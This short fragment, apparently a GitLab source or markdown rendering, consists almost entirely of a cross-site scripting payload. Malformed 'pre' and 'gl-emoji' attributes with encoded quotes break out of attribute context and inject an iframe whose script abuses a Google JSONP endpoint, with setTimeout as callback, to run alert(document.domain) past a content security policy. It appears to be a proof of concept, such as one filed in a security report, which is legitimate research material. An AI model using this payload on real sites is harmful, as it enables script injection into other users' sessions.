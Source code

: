 <pre data-sourcepos="&#34;></pre>
<gl-emoji data-name='&#34;x=&#34y&#34><iframe srcdoc=&#34;<script src=https://apis.google.com/complete/search?client=chrome&amp;q=alert(document.domain);//&amp;callback=setTimeout></script>&#34;' data-unicode-version='x'>
abc
</gl-emoji>
<pre x=&#34;">
<code></code></pre>
csd
